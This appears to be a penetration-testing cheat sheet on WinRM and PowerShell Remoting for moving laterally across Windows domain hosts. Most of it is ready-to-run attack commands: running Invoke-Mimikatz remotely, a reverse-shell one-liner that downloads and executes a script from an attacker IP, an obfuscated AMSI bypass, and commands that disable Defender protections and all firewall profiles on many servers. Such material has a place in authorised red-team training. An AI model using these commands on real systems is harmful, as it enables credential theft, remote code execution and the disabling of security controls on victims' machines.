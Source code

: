 # WinRM

WinRM stands for Windows Remote Management that allows to perform management tasks on systems remotely, WinRM is available if the port is opened.

WinRM Ports:

* **5985/tcp (HTTP)**
* **5986/tcp (HTTPS)**

## Enumeration

Find machines with PS Session

[#user-hunting](../ad-enumeration/gnereral.md#user-hunting "mention")

## PS Session

{% hint style="info" %}
PSRemoting uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management.
{% endhint %}

Enable PowerShell Remoting on local system (Requires elevated privileges)

```powershell
Enable-PSRemoting
```

#### Create a session

```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
```

#### Enter existing session

```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local

# Using session object
Enter-PSSession -Session $sess
```



## Invoke-Command

<pre class="language-powershell"><code class="lang-powershell"># test remoting connection
Invoke-Command -Session $Session -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'
Invoke-Command -Computername Srv01.Security.local -ScriptBlock {Whoami;Hostname}
<strong>
</strong># Run locally loaded functions on target system
Invoke-Command -Computername Srv01.Security.local -ScriptBlock ${Function:Test-Function}
Invoke-Command -Session $Session -FilePath -ScriptBlock ${Function:Test-Function}

# Load script
Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session
<strong>Invoke-Command -Computername Srv01.Security.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'
</strong><strong>
</strong><strong># Multiple connections
</strong><strong>Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content &#x3C;list_of_servers>) 
</strong></code></pre>

#### Useful script blocks

```powershell
# Language Mode
Invoke-Command ComputerName <target> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

# Reverse shell
Invoke-Command -ComputerName Srv01.Security.local -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/Shell.ps1')"}

#Bypass AMSI
Invoke-Command -session $Session -ScriptBlock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )}

# Turns off all firewall profiles
Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}

# Turns off Defender and Firewall on multiple systems
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Set-MPPreference -DisableBehaviorMonitoring $true;`
Set-MPPreference -DisableBlockAtFirstSeen $true;`
Set-MPPreference -DisableEmailScanning $true;`
Set-MPPReference -DisableScriptScanning $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Add-MpPreference -ExclusionPath "C:\Windows\Temp";`
Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}`
-ComputerName (Get-Content c:\Serverlist.txt)
```

## Winrs

```powershell
winrs -r:dcorp-mgmt <command>
winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname 
```

